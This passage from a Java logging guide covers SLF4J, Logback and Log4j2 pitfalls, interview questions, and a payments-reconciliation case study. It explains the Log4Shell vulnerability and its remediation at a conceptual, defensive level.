**Use Logback** as the default choice for most services — mature, simple to operate, and the Spring Boot default.

**Use Log4j2 Async Loggers** when a service needs maximum sustained throughput or a garbage-free logging path under heavy GC pressure.

**Use `java.util.logging` directly** only rarely — a dependency-free library with zero tolerance for extra jars, or unavoidable legacy integration.

**Do NOT** log at DEBUG/TRACE inside a tight per-record loop processing millions of rows without a level guard — even a disabled check has branch and argument-evaluation cost at extreme scale.

**Do NOT** use a synchronous file or network appender on the request-handling thread of a latency-sensitive service.

**Do NOT** log full request/response bodies, `Authorization`/`Cookie` headers, card numbers, SSNs, or raw exception messages that might embed a secret (a database connection string inside a caught exception is a classic leak).

**Do NOT** rely on `e.getMessage()` alone when logging an exception — the stack trace is frequently the only real clue to root cause.

---

## 10. Common Pitfalls

### War Story: Log4Shell Incident Response

A mid-size SaaS company's security team received the public Log4Shell disclosure on a Friday afternoon (December 10, 2021). Their first scan found `log4j-core` on the classpath of 40+ services — some direct, most **transitive**, pulled in by frameworks and internal libraries nobody remembered added them. The immediate action, applied within hours across the fleet, was the zero-redeploy mitigation: setting `-Dlog4j2.formatMsgNoLookups=true` as a JVM flag via the deployment platform's environment-variable override, buying time without waiting for a build pipeline. Over the following week, every service was rebuilt against Log4j2 2.17.1+, and — critically — the team added a permanent CI gate (an OWASP Dependency-Check / Snyk scan failing the build on any known-CVE dependency, direct or transitive) so the NEXT ecosystem-wide CVE would be caught by automation, not by a Friday-afternoon fire drill. **Fix, generalized**: patch to the fixed version, not just the mitigation flag (2.15.0's fix was later found incomplete — CVE-2021-45046); treat "what's in my transitive dependency tree" as a continuously monitored question, not a one-time audit.

### Other Pitfalls

1. **Ignoring the "multiple SLF4J bindings" warning.** Two backends on the classpath means one config file is silently dead — editing `log4j2.xml` does nothing if SLF4J actually bound to Logback. **Fix**: exclude the unwanted backend's jar; treat the warning as a build failure, not noise.
2. **Additivity left at its default causing duplicate log lines.** A logger with its own appender AND `additivity="true"` (the default) also sends every event to `root`'s appenders, doubling output. **Fix**: `additivity="false"` on any logger with dedicated appenders.
3. **`discardingThreshold` silently dropping INFO-level evidence during an incident.** A payment-failure spike filled an `AsyncAppender`'s queue past 80%; Logback started dropping everything below WARN by design, which meant the INFO-level breadcrumbs engineers needed to reconstruct the failing request sequence were gone — only the bare ERROR lines survived. **Fix**: alert on appender queue depth (exposed via JMX/Micrometer) as its own signal, independent of application metrics, so a growing backlog is caught before it starts dropping events.
4. **Unbounded rolling file policy filling the disk.** Without `maxHistory`/`totalSizeCap` (Logback) or a `Delete` + `IfAccumulatedFileSize` action (Log4j2), a rolling appender keeps every rotated file forever until the volume hits 100% — which then causes failures in completely unrelated parts of the system (crash-looping processes, databases unable to extend a WAL file). **Fix**: always pair a rolling policy with an explicit retention cap and a disk-usage alert on the log volume.
5. **`log.error("failed", e.getMessage())` instead of `log.error("failed", e)`.** Passing only the message string discards the entire stack trace — SLF4J's last-argument-as-`Throwable` overload is what actually attaches it. **Fix**: always pass the `Throwable` itself as the final argument.
6. **`System.out.println` debug statements left in production code.** Bypasses the entire logging pipeline — no level control, no MDC context, no shipping to the aggregator, and it is synchronous by definition. **Fix**: lint rules or code review that reject raw `System.out`/`System.err` calls outside of tests and CLI entry points.
7. **MDC leaking a previous request's correlation ID into a reused pool thread** (see §5, §6) — the single most common "why does Kibana show the wrong requestId" bug in services that dispatch work to an `ExecutorService` without a capture/restore wrapper.

---

## 11. Technologies & Tools

| Tool / Library | Purpose | Notes |
|----------------|---------|-------|
| SLF4J | Logging facade/API | `slf4j-api`; code against this, never a concrete backend |
| Logback | Default SLF4J-native implementation | Spring Boot default; `logback-classic` + `logback-core` |
| Log4j2 | Alternative implementation | Async Loggers via LMAX Disruptor; plugin architecture; source of Log4Shell |
| java.util.logging (JUL) | JDK-bundled implementation | No extra dependency; weaker ecosystem; usually bridged away from |
| Log4j 1.x | Legacy implementation | EOL since 2015 — migrate away, do not use in new code |
| LMAX Disruptor | Lock-free ring buffer | Powers Log4j2 Async Loggers |
| logstash-logback-encoder | JSON encoder for Logback | Structured logging, ECS-compatible field sets |
| Log4j2 `JsonTemplateLayout` | JSON layout for Log4j2 | Built-in structured output, ECS/GELF templates |
| Filebeat / Fluent Bit / Promtail | Log shippers | Tail files, forward to an aggregator |
| ELK Stack (Elasticsearch, Logstash, Kibana) | Log aggregation + search | Classic centralized logging stack |
| Grafana Loki | Log aggregation | Lighter-weight, label-indexed alternative to ELK |
| OpenTelemetry Logs | Vendor-neutral log/trace correlation | `trace_id`/`span_id` fields tie logs to distributed traces |
| Micrometer `context-propagation` | Context bridging library | Bridges MDC/ThreadLocal with reactive/virtual-thread contexts |
| OWASP Dependency-Check / Snyk / Dependabot | Software composition analysis | Catches vulnerable transitive versions — the standard post-Log4Shell practice |

---

## 12. Interview Questions with Answers

**What is Log4Shell (CVE-2021-44228) and why was it so severe?**
Log4Shell is a critical remote-code-execution flaw in Log4j2's message-lookup feature, scored CVSS 10.0, the maximum possible severity. Versions up to 2.14.1 interpolated `${jndi:...}` lookup syntax found inside a *logged message*, so logging attacker-controlled input (an HTTP header, a username) that contained that string triggered a JNDI lookup fetching and executing a remote Java class — full unauthenticated RCE. Its blast radius was enormous because Log4j2 is deeply transitive, bundled inside frameworks, app servers, and consumer products like Minecraft; the fix is patching to 2.17.1+, and the lasting lesson is continuous transitive-dependency scanning, not a one-time audit.

**Why does MDC lose context in a thread pool?**
MDC stores context in a `ThreadLocal` on the `Thread` object, and pooled worker threads are long-lived and reused, so they don't automatically have the submitting thread's context. A worker thread's own MDC map is whatever it had before this task started — empty if freshly created, or stale with a *previous, unrelated* task's values if reused — which is why logs show a missing or wrong correlation ID. The fix is to snapshot `MDC.getCopyOfContextMap()` on the submitting thread, restore it inside the task, and always clear it in a `finally` block, or automate this with a `TaskDecorator`/wrapping `Runnable`.

**Why doesn't parameterized logging need an `isDebugEnabled()` guard, and when do you still need one?**
Parameterized logging defers message formatting until after the level check, so `log.debug("user {} did {}", id, action)` never builds a string when DEBUG is disabled. Cheap, already-computed arguments cost nothing extra when the level is off. A guard (or a lazy `Supplier`) is still needed when an argument itself requires real computation — `log.debug("state={}", expensiveSerialize(obj))` — because Java evaluates method arguments before calling `log.debug()`, so `expensiveSerialize(obj)` runs regardless of level; wrap that call in `if (log.isDebugEnabled())`, use SLF4J 2.x's `atDebug().addArgument(supplier)`, or Log4j2's native `Supplier` overload.

**What is the difference between a logging facade and a logging implementation?**
A facade (SLF4J) is the stable API application and library code call; an implementation (Logback, Log4j2, JUL) is the backend that actually formats and writes log output. Application code depends only on `org.slf4j.Logger`/`LoggerFactory`; the concrete backend is chosen entirely by which jar is on the runtime classpath plus its config file, so swapping backends should never require touching a call site. Libraries should depend on `slf4j-api` only, never on `logback-classic` or `log4j-core` directly, so the application — not the library — controls the final backend choice.

**What does the "multiple SLF4J bindings" warning mean, and what happens if you ignore it?**
It means two or more logging backends are present on the classpath simultaneously, and SLF4J can only bind to one of them. SLF4J logs a startup warning naming every provider it found and then picks one — via `ServiceLoader` ordering in modern SLF4J, which is not guaranteed stable across JVMs or classloaders. Ignoring it means the configuration file you're editing might not belong to the backend SLF4J actually loaded, producing "I changed the log level and nothing happened" confusion; the fix is always to exclude the unwanted backend's jar from the dependency tree.

**What is logger additivity, and how can it cause duplicate log lines?**
Additivity means a logger's events propagate up to its parent logger's appenders in addition to its own, and it defaults to `true`. If a package-level logger has its own appender and additivity is left at the default, every event also flows up to `root`'s appenders — if root has a console/file appender too, each line is written twice. The fix is to set `additivity="false"` on any logger that has its own dedicated appenders, or to rely on additivity intentionally and only attach appenders at `root`.

**What's the difference between `discardingThreshold` and `neverBlock` on Logback's `AsyncAppender`, and what do they trade off?**
`discardingThreshold` silently drops TRACE/DEBUG/INFO events once the queue is mostly full, while `neverBlock` decides what happens when it is completely full. The default `discardingThreshold` is 20% of `queueSize`, protecting the appender from falling further behind while always preserving WARN/ERROR; `neverBlock=false` (default) makes the calling thread block once the queue is 100% full — protecting against total data loss at the cost of latency — while `neverBlock=true` drops the incoming event instead, protecting latency at the cost of potentially losing WARN/ERROR events too. This is a deliberate latency-vs-durability choice a team must make explicitly.

**How does Log4j2 achieve such high logging throughput with Async Loggers?**
Log4j2's Async Loggers use the LMAX Disruptor, a lock-free ring buffer, so the calling thread publishes an event with a single CAS instead of taking a lock. A single background thread consumes events from the buffer in order and performs the actual formatting/I/O, while the caller returns immediately; Log4j2's own published benchmarks show Async Loggers sustaining throughput in the millions of messages per second on multi-core hardware, roughly an order of magnitude above a synchronous file appender doing a disk write per call. Two modes exist: "Mixed" (`<AsyncLogger>` tags on specific loggers) and "All Async" (`-Dlog4j2.contextSelector=...AsyncLoggerContextSelector`, routing every logger through the Disruptor).

**Why is `includeCallerData`/caller-location capture expensive, and when should it be enabled?**
Capturing caller data (file, line number, method) requires generating a stack trace via a new `Throwable` and walking it, which costs roughly 10-20x more than a plain log call. The JVM has no cheap lookup for "which line called this method" — the only way to get it is a stack walk, which is real, measurable overhead multiplied across every log call, and in an async appender it forces synchronous work back onto the calling thread before the event can be enqueued. Leave it `false` in production and enable it only temporarily while actively debugging a specific issue.

**How do you propagate MDC across a `CompletableFuture` or `ExecutorService` boundary?**
Snapshot the MDC context map on the submitting thread with `MDC.getCopyOfContextMap()`, restore it inside the task, and clear it in a `finally` block before the pool thread is reused. Pass the captured map into the lambda given to `supplyAsync`/`submit`, call `MDC.setContextMap(context)` first inside the task, and always restore or clear in `finally` so the pool thread doesn't leak this task's context into the next unrelated one. Wrap this once as a reusable decorator (or Spring's `TaskDecorator` on `ThreadPoolTaskExecutor`) instead of repeating it at every call site.

**Is Log4j 1.x vulnerable to Log4Shell, and is it safe to keep using?**
Log4j 1.x is not vulnerable to the specific Log4Shell JNDI-lookup flaw because it never had that message-substitution feature, but it is not safe to keep using. It reached end-of-life in 2015 and has its own real, unpatched vulnerabilities (unsafe deserialization in components like `SocketServer`/`JMSAppender`, and a JDBCAppender RCE, CVE-2022-23305) that will never be fixed. "Not vulnerable to Log4Shell" is frequently misused as a reason to delay migration, when the correct action is to move to SLF4J + Logback/Log4j2 entirely.

**What is structured (JSON) logging, and why do production teams adopt it?**
Structured logging emits each log line as a machine-parseable object, typically JSON, with named fields instead of a free-text sentence. A plaintext line needs fragile regex/grok parsing to extract a value like an order ID at index time, while a JSON line with an `order_id` field lets the aggregator index it natively, enabling fast structured queries instead of full-text search. Teams typically standardize field names against a shared schema, most commonly Elastic Common Schema, so logs from different services can be joined and filtered consistently.

**What should never appear in a log line, and how do you enforce that?**
Logs must never contain secrets (passwords, API keys, tokens), full payment card numbers/CVVs, or unredacted personal data such as SSNs or full names paired with contact info. Treat every log statement as if it might be read by someone without access to the underlying system — support staff, a broadly-readable aggregator, or an attacker who compromises the log pipeline. Enforce this with masking utilities applied before a value reaches a log call, redaction filters at the appender layer as a second line of defense, and tests or static analysis that fail the build if a known-sensitive field name is passed directly into a log statement.

**How do you choose between TRACE, DEBUG, INFO, WARN, and ERROR?**
Each level is a contract: TRACE/DEBUG are for developers, INFO is normal operation, WARN is a recoverable problem worth investigating, and ERROR needs attention. TRACE is fine-grained enough that it's rarely enabled anywhere; DEBUG should carry enough detail to diagnose a specific bug and is safe to enable per-package temporarily in production; INFO covers coarse lifecycle events; WARN flags something recoverable a human should eventually look at; ERROR pairs with an operation that failed and typically triggers an alert. A useful test: if a level, enabled for a week in production, would double the log storage bill without helping anyone answer a real question, it's the wrong level for that message.

**What is the performance cost of generating a stack trace via `Throwable`, and why does it matter for logging?**
Creating a `Throwable` calls `fillInStackTrace()`, which walks and captures every frame on the call stack, and that cost scales with stack depth, not with whether the exception is ever logged. This is why using exceptions for ordinary control flow is a classic performance trap — a hot loop that constructs and throws/catches an exception per iteration pays the stack-capture cost every time. For logging, always pass the full `Throwable` via the dedicated overload (`log.error("failed", ex)`) rather than just `ex.getMessage()` — the message-only version is cheaper but discards the stack trace, usually the only clue to where a failure occurred.

**When would you choose a synchronous appender over an asynchronous one?**
Choose synchronous appenders when durability matters more than latency — low-volume batch jobs, audit trails, or compliance logs that must survive a crash. An async appender hands events to a queue and returns immediately, which is right for a request-handling thread in a high-throughput service, but it introduces a bounded window where a crash loses events still sitting in the queue. A nightly reconciliation job processing a fixed, modest volume of records usually has latency to spare and a much stronger requirement that every line reach disk, making synchronous writes the safer default there.

**How does SLF4J locate its binding at runtime?**
Modern SLF4J (2.x) uses the standard Java `ServiceLoader` mechanism to discover any jar providing a `META-INF/services/org.slf4j.spi.SLF4JServiceProvider` entry. Older SLF4J 1.7.x instead looked for a compiled `org/slf4j/impl/StaticLoggerBinder` class on the classpath — a jar-naming convention rather than a service-loader entry, which is why old tutorials reference specific jars as "the binding." Both mechanisms fail identically when more than one candidate is present: SLF4J emits the "multiple bindings" warning and picks one non-deterministically.

**How do you propagate correlation context into a reactive (Project Reactor / WebFlux) pipeline where there's no single owning thread?**
Reactor replaces `ThreadLocal`-based MDC with its own immutable `Context` object that rides along the reactive subscription rather than any particular thread. Because a single reactive chain can hop across many `Scheduler` threads, a `ThreadLocal` would need manual copying at every hop; `Context` is attached to the `Subscription` instead and bridged to MDC at logging time via `Hooks.enableAutomaticContextPropagation()` combined with the `micrometer-context-propagation` library. It's conceptually the same problem as the thread-pool MDC issue, solved by not depending on thread identity at all.

**Walk through what's wrong with `log.debug("x=" + expensiveMethod())` and how to fix it.**
This line pays two costs on every single call regardless of whether DEBUG is enabled: the string concatenation itself, and executing `expensiveMethod()`. Java evaluates the full expression before calling `log.debug(...)`, so both happen unconditionally even if the message is discarded instantly. The fix has two independent parts: replace the concatenation with a parameterized placeholder (`log.debug("x={}", value)`) to defer formatting, and if `value` itself requires real computation, additionally guard the call with `if (log.isDebugEnabled())` or a lazy `Supplier` so the expensive computation is skipped too, not just its string conversion.

**How do virtual threads and `ScopedValue` change the MDC-propagation problem?**
Virtual threads don't eliminate the MDC problem by themselves — MDC is still `ThreadLocal`, and manual capture/restore doesn't scale to millions of short-lived virtual threads. The structured-concurrency-native answer is `ScopedValue` (JEP 446): an immutable value bound for the dynamic extent of a call tree, typically a `StructuredTaskScope`, automatically visible to every child task spawned within that scope with no manual copying, and automatically unbound when the scope exits — composing correctly with fork-join-style structured concurrency in a way `ThreadLocal` copying never did. See [Structured Concurrency & Loom](../structured_concurrency_and_loom/README.md).

**What happens if a `RollingFileAppender`'s policy has no size/history cap?**
Without `maxHistory` and a `totalSizeCap`, a rolling file appender keeps every rolled file forever, and the log directory grows until it fills the disk. A full disk on the host doesn't just stop logging — many systems fail loudly in unrelated ways once the volume hits 100% (crash-looping processes, other writes failing, a database unable to extend its WAL file), which has caused real outages where logging retention, not application logic, was the root cause. Always pair a rolling policy with an explicit retention cap and alert on log-volume disk usage independently of application metrics.

---

## 13. Best Practices

1. **Always code to the SLF4J API** — never import a concrete Logback/Log4j2 class from application logic.
2. **Use parameterized `{}` placeholders** — never build log messages with string concatenation.
3. **Guard or lazily supply only when the argument itself is expensive** to construct, not for the formatting step, which parameterized logging already defers.
4. **Always `MDC.clear()` in a `finally` block**, and never dispatch to a thread pool without a capture/restore wrapper or `TaskDecorator`.
5. **Prefer async appenders/loggers** for latency-sensitive request-handling paths; reserve sync appenders for low-volume, durability-critical output.
6. **Cap every rolling file appender** with `maxHistory` + `totalSizeCap` (Logback) or a `Delete`/`IfAccumulatedFileSize` strategy (Log4j2).
7. **Ship JSON structured logs to your aggregator**; keep human-readable pattern layout for local development only.
8. **Never log secrets or PII** — add masking utilities and redaction filters, and test for regressions the same way you test any other security control.
9. **Continuously scan dependencies for known CVEs** (OWASP Dependency-Check, Snyk, Dependabot) — the lasting, organization-wide lesson of Log4Shell.
10. **Set `includeCallerData=false`** (or the Log4j2 equivalent) in production; enable it only while actively debugging.
11. **Correlate MDC/requestId fields with your distributed-tracing IDs** (`trace_id`/`span_id`) so logs and traces can be joined during an incident.

---

## 14. Case Study

### Designing the Logging Pipeline for a Payments Reconciliation Service

**Scenario.** PayFlow, a fictional mid-size payments company, runs a customer-facing Payment API (Spring Boot, ~500 RPS peak) and a nightly batch **Reconciliation Service** that re-verifies 2M transactions against a card-network settlement file using a fixed 16-thread pool. Every log line must carry a `requestId` (API) or `reconciliationBatchId` (batch) so Kibana can reconstruct one transaction's full story across services. Constraints: async logging must add well under 1ms overhead to the request thread; retention is 30 days hot in Elasticsearch, 1 year cold in object storage; and — a hard PCI-DSS requirement — no full card number or CVV may ever reach a log line.

```
Payment API (virtual threads)                Reconciliation batch (fixed pool, 16 threads)
        |                                              |
        v                                              v
logback-spring.xml:                          logback-spring.xml:
  JSON encoder (LogstashEncoder)                JSON encoder (LogstashEncoder)
  AsyncAppender (queueSize=512,                 AsyncAppender (queueSize=512,
    neverBlock=false)                             neverBlock=false)
  MDC: requestId per HTTP request               MDC: reconciliationBatchId,
                                                   propagated via MdcTaskDecorator
        |                                              |
        +-------------------+       +------------------+
                            v       v
                       logs/app.log (JSON, rolling, capped)
                            |
                            v
                        Filebeat  ->  Kafka  ->  Logstash  ->  Elasticsearch  ->  Kibana
```

**Redacting sensitive fields before they ever reach a log call:**

```java
final class LogSafe {
    private LogSafe() {}

    // Keep only the last 4 digits - defense in depth, applied at the call site,
    // never relying solely on a downstream filter to catch what should never arrive.
    static String maskPan(String pan) {
        if (pan == null || pan.length() < 4) return "****";
        return "*".repeat(pan.length() - 4) + pan.substring(pan.length() - 4);
    }
}

// Call site:
log.info("Settled txn {} pan={}", txn.id(), LogSafe.maskPan(txn.pan()));
```

**The reconciliation job's MDC bug and fix** (the same pattern as §6, applied to this scenario):

```java
// BROKEN - reconciliationBatchId is set on the scheduler thread, then lost the
// instant work is handed to the 16-thread pool
void runNightlyReconciliation(String batchId, List<Transaction> txns) {
    MDC.put("reconciliationBatchId", batchId);
    txns.forEach(t -> pool.submit(() -> {
        log.info("Reconciling txn {}", t.id());  // Kibana shows blank/wrong batchId
        reconcile(t);
    }));
}

// FIXED - ThreadPoolTaskExecutor configured with a TaskDecorator (§6) makes the
// capture/restore automatic for every task, with no per-call-site boilerplate
@Bean
ThreadPoolTaskExecutor reconciliationExecutor() {
    ThreadPoolTaskExecutor executor = new ThreadPoolTaskExecutor();
    executor.setCorePoolSize(16);
    executor.setTaskDecorator(new MdcTaskDecorator());   // from §6
    executor.initialize();
    return executor;
}
```

### Common Pitfalls in This Design

**Async queue saturation during a real incident.** During a card-network outage, retries flooded the Payment API's `AsyncAppender` queue past its `discardingThreshold`; INFO-level breadcrumbs needed to reconstruct the failure sequence were dropped by design, leaving only bare ERROR lines and materially slowing the incident response. **Fix**: alert on appender queue depth via Micrometer/JMX as an independent signal, and size the queue against peak, not average, load.

**PCI scope creep from an unmasked field added "temporarily."** A developer added a debug log of the raw settlement request (including the full PAN) to chase a one-off bug, then forgot to remove it — the log line survived three days in production before a log-content audit caught it. **Fix**: a CI check that fails the build if a log statement references a field named `pan`, `cvv`, `cardNumber`, or similar without going through `LogSafe`.

**Mixing the batch job's thread pool with the request-handling pool.** An early version reused the API's general-purpose executor for reconciliation, so a slow reconciliation night starved API request handling of threads. **Fix**: dedicated, separately-sized and separately-monitored pools per workload — see [Concurrency](../concurrency/README.md) for pool-sizing fundamentals.

### Interview Discussion Points

**Why does the reconciliation job need its own `TaskDecorator` if the Payment API doesn't?** The API's MDC context (`requestId`) is set per-request by a servlet filter and naturally scoped to one HTTP thread; the batch job explicitly fans work out across a 16-thread pool, which is exactly the scenario where MDC's thread-local storage stops following the logical unit of work without a decorator.

**Why JSON logs here instead of a pattern layout?** Kibana needs to filter and aggregate by `reconciliationBatchId` and `orderId` across millions of lines per night — a task that is fast with indexed JSON fields and prohibitively slow with regex-parsed plaintext.

**Why cap the `AsyncAppender` queue instead of making it unbounded?** An unbounded queue would convert a slow downstream (disk, network) into unbounded heap growth on the JVM instead of the load-shedding or back-pressure behavior an operator can actually see and react to — see [Performance & Tuning](../performance_and_tuning/README.md) for the general principle of bounding queues to make overload visible rather than silently absorbing it.

---

## Related / See Also

- [Concurrency](../concurrency/README.md) — thread pools, `ExecutorService` internals, and why pooled threads are long-lived and reused (the root cause of MDC leakage across tasks)
- [Structured Concurrency & Loom](../structured_concurrency_and_loom/README.md) — virtual threads, `ScopedValue`, and `StructuredTaskScope` as the modern, structured replacement for manual MDC propagation
- [Performance & Tuning](../performance_and_tuning/README.md) — JMH benchmarking discipline and JVM tuning that applies equally to measuring logging overhead in hot paths
